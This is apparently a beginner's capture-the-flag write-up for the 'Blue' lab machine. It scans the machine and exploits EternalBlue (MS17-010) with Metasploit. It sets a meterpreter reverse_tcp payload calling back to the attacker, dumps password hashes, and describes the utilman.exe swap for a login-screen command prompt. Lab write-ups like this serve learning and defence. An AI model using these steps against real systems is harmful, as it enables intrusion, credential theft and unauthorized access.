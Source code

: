 ![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/logo.png)

# Blue

This is the Fifth Box i tired.

Let's start with finding the `ip address` of `Blue`

## Scanning

You can use `netdiscover` to find the ip address of the `Blue' Machine :

```
netdiscover -r [yourip]/24

Check for the one with Vritual Machine names on it
```
Now let's do an `nmap` scan.

```
nmap -p- -A -T4 [Target IP]

```
Results:


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap.png)

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap2.png)

We found these ports open:


- `135/tcp   open  msrpc        Microsoft Windows RPC`
- `139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn`
- `445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

Now after searching for this in google i found `eternal blue exploit` from [**Rapid7**](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/ms17-010.png)

And this is how you can use it :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/ms17-010.png)

You can check for `eternalblue` exploits using tools like **Searchsploit**

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/searchsploit%20eter.png)

Now what is that :

```
Eternal Blue is an exploit that targets a vulnerability in the Windows implementation of the Server Message Block (SMB) protocol. SMB is a network file-sharing protocol that allows users to access files and printers on a local network.

The vulnerability, known as CVE-2017-0144, exists in the way Windows handles SMBv1 requests. Specifically, it affects the way Windows processes specially crafted SMBv1 packets that contain malicious code.

Here's a step-by-step breakdown of the exploit:

1. Initial Compromise: An attacker sends a specially crafted SMBv1 packet to a vulnerable Windows machine.
2. Buffer Overflow: The packet causes a buffer overflow in the Windows SMBv1 implementation, allowing the attacker to execute malicious code.
3. Shellcode Execution: The malicious code, known as shellcode, is executed in the context of the Windows kernel.
4. Kernel Mode Access: The shellcode gains access to the Windows kernel mode, allowing it to execute arbitrary code with elevated privileges.
5. Payload Delivery: The shellcode delivers a payload, such as malware or a backdoor, to the compromised machine.
6. Propagation: The malware can spread to other vulnerable machines on the network via SMB, creating a worm-like effect.
```
This is a manual way of exploiting this box using this [**Tool**](www.github.com/3ndG4me/AutoBlue-MS17-010).

But let's check if it's acutally vulnerable or not.

we can do that using this module :

`auxiliary/scanner/smb/smb_ms17_010`
```
$ msfconsole

$ msf5 > search eternalblue

$ msf5 > use 1

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > options

$ msf5 auxiliary(scanner/smb/smb_ms17_010) >  set rhosts [blue ip]

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[it will check if the target machine is vulnerable to any smb - MS17-010]
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msfchecksmb.png)

Yep, it is vulnerable to `ms17_010_eternalblue`

You can also check it by [**this**](https://github.com/3ndG4me/AutoBlue-MS17-010) script

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/etrnalbluchecker.png)

It say's `Target is not patched` so it's vulnerable.

## Exploitation

Now let's run `msfconsole`.

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/use%20exploit%20smb.png)

```
$ msf5 exploit(windows/smb/ms17 010 eternalblue) > options

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set rhosts [blue ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set payload windows/x64/meterpreter/reverse_tcp

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set lhost [your ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > run

```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/meterpretershell.png)

- We can dump the hashes using `hashdump` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/hashdump.png)

- Take a screenshot :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/screenshot.png)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/Blue.png)

- Getting `shell` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/authsystem.png)

Cracked the password :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/password%20crack.png)

We can also crash this machine by doing like this 

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/crash.png)

```
(I need to learn more about these things !)
```
I also tried a simple trick in where you can rename the `utilman.exe` to `utilman2.exe` & 
`cmd.exe` to `utilman.exe` present in the `system32` folder.

(Found this one [**Loi Liang Yang**](https://youtu.be/2v-mGf4_9-A?feature=shared) channel)

This give you access to `cmd prompt` from the `user login window` and you can easily change user's password using :
```
net user [username][password]
```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/utilman.png)












